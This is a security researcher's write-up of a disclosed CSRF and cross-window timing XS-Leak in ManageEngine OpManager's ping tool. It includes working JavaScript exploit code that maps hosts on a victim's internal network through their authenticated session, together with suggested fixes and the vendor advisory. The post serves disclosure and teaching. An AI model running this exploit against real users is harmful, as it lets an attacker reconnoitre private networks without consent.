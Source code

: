 ```yaml
---
title: "OpManager: CSRF & XS-Leak Chained for Information Disclosure"
author: "Jayateertha Guruprasad"
date: 2024-04-18T12:41:00.067Z
lastmod: 2024-08-31T13:12:51+05:30

description: ""

subtitle: ""

image: "/post/img/2024-04-18_opmanager-csrf-xsleak-chained-for-information-disclosure_0.png" 
images:
 - "/post/img/2024-04-18_opmanager-csrf-xsleak-chained-for-information-disclosure_0.png"


aliases:
- "/opmanager-csrf-xs-leak-chained-for-information-disclosure"

---
```


[**ManageEngine OpManager**](https://www.manageengine.com/network-monitoring/) is a powerful network monitoring software that provides deep visibility into the performance of your routers, switches, firewalls, load balancers, wireless LAN controllers, servers, VMs, printers, and storage devices.

OpManager has tools like ping, traceroute etc which authenticated users can access via Web UI.

Let’s take our attacker scenario using the ping tool provided in the Web UI of OpManager.

The API request used for ping tool is — `https://OpManager:8061/client/api/json/tools/getPing?actionFrom=scanButton&doAction=Ping&enhancedPingValue=true&ipOrHost=$ {host}&selectedTab=DIAGNOSTIC_TOOLS&selectedToolID=PING&_=${timestamp}`

**The above API request is sent as GET request without any CSRF checks, Hence attacker could craft a website which when opened by a authenticated OpManager victim would make a ping request to any internal device/host in the network of victim.**

Okay, for now we are able to make a internal ping request due to no CSRF checks, but How does attacker know if the IP exist or not through CSRF vulnerability ?

> **Due to browser protection like SOP & proper CORS configurations, attacker can only make request from victim’s session due to lack of CSRF verification, but cannot read the response of API request.**

**Here comes XS-Leak to our rescue.**
We will be using a variation of [Cross-window Timing Attacks](https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#cross-window-timing-attacks) to exploit this scenario & know if a internal IP exist in the victim’s network or not remotely.

By Using [Cross-window Timing Attacks](https://xsleaks.dev/docs/attacks/timing-attacks/network-timing/#cross-window-timing-attacks), An attacker can measure the network timing of a page by opening a new window with `window.open` and waiting for the `window` to start loading. During the time window has not fully loaded, **win.origin** object will be accessible by the parent window which opened it. But when window is fully loaded origin of the window will be changed, Hence when parent window tries to access **win.origin** object due to Browser’s SOP protection exception will be thrown.

**Attack Scenario —**

1. Attacker crafts a website which when visited by victim, **opens new window**(assume name of window as child) to **https://OpManager:8061/client/api/json/tools/getPing?actionFrom=scanButton&doAction=Ping&enhancedPingValue=true&ipOrHost=${host}&selectedTab=DIAGNOSTIC_TOOLS&selectedToolID=PING&_=${timestamp}** & **starts a timer**.
2. Until the child window is fully loaded, when the attacker tries to access child Windows Origin object from attacker website, origin will be accessible & will be either the attacker website or about://blank depending on the browser used.
3. When the child window is fully loaded, when attacker’s website tries to access child window’s origin, origin will be changed to OpManager, Hence accessing Child window origin will throw a exception in the attacker’s website.
4. When exception is received, **timer is stopped & response time is calculated**.
5. If response time is less than say 7 sec, it means host is accessible, If response time is longer than 7 sec it means host in inaccessible as ping is taking lot of time.

**Exploit Code —**

{{< highlight javascript >}}
function measureHostExistence(host) {
    var uri = `https://OpManager:8061/client/api/json/tools/getPing?actionFrom=scanButton&doAction=Ping&enhancedPingValue=true&ipOrHost=${host}&selectedTab=DIAGNOSTIC_TOOLS&selectedToolID=PING&_=${Date.now()}`;
    var win = window.open(uri);
    var start = performance.now();

    function measure() {
        try {
            win.origin;
            setTimeout(measure, 0);
        } catch (e) {
            var time = performance.now() - start;
            if (time > 7000) {
                console.log("Host: " + host + " " + "does not exist");
            } else {
                console.log("Host: " + host + " " + "exists");
            }
        }
    }
    measure();
}
var inexistent_host = "192.168.1.254";
measureHostExistence(inexistent_host);
var existent_host = "127.0.0.1";
measureHostExistence(existent_host);
var existent_host = "192.168.208.32";
measureHostExistence(existent_host);
{{< /highlight >}}

![](/post/img/2024-04-18_opmanager-csrf-xsleak-chained-for-information-disclosure_0.png#layoutTextWidth)


> **Impact — Attacker can determine if a host/device with particular IP exists in the internal network of OpManager, This will work even in DMZ assuming only OpManager server is accessible to attacker or exposed through internet.**

**Fix Suggested —**

1. Change the method to POST for urls doing sensitive actions & implement proper CSRF protection
2. Use samesite=strict for authentication cookies

As this was low severity vulnerability with negligible impact there was no bounty paid by Zoho in this case.

**Advisory**:[**https://www.manageengine.com/itom/advisory/zve-2024-1132.html**](https://www.manageengine.com/itom/advisory/zve-2024-1132.html)

**References:**

1. [https://infosecwriteups.com/xs-leak-deanonymize-microsoft-skype-users-by-any-3rd-party-website-69849e4501a8](https://infosecwriteups.com/xs-leak-deanonymize-microsoft-skype-users-by-any-3rd-party-website-69849e4501a8)
2. [XS-Leaks.dev](https://xsleaks.dev/docs/attacks/error-events/)
3. [Multiple XS-Leak in Google found by Tezranq](https://portswigger.net/daily-swig/new-xs-leak-techniques-reveal-fresh-ways-to-expose-user-information)

#### **Liked my article ? Follow me on** [**LinkedIn**](https://www.linkedin.com/in/jayateerthag/)**, Twitter (**[**@jayateerthaG**](https://twitter.com/jayateerthag)**), and **[**Medium**](https://jayateerthag.medium.com/)** for more content about bugbounty, Infosec, cybersecurity and hacking.**

* * *
Written on April 18, 2024 by Jayateertha Guruprasad.

Originally published on [Medium](https://medium.com/@jayateerthag/opmanager-csrf-xs-leak-chained-for-information-disclosure-382c6ee518ca)
